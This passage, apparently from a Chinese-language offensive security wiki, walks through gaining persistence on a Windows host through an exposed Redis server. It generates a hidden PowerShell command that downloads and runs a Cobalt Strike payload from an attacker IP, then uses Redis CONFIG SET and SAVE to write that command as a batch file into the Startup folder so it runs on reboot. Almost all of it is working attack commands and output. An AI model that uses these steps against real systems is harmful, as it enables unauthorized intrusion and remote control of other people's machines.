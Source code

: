 <a-checkbox checked>`Attacks -> Web Drive-By -> Script Web Delivery`</a-checkbox></br>

![img](/assets/PeiQi-Wiki/img/1628610432546-2e313488-1ab1-42f2-bf37-fb074693c30a-20220415151326919.png)

生成 Powershell 语句

```php
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))"
```

 执行Redis命令写入语句

```php
192.168.0.123:6379> config set dir "C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/"
OK
192.168.0.123:6379> config set dbfilename cmd.bat
OK
192.168.0.123:6379> set x "\r\n\r\npowershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))\"\r\n\r\n"
OK
192.168.0.123:6379> save
OK
```

当主机重启时就会执行命令上线 CobaltStrike

![img](/assets/PeiQi-Wiki/img/1628682645780-adbda105-6e56-481d-a4c9-b34e6bd5908b-20220415143203710.png)

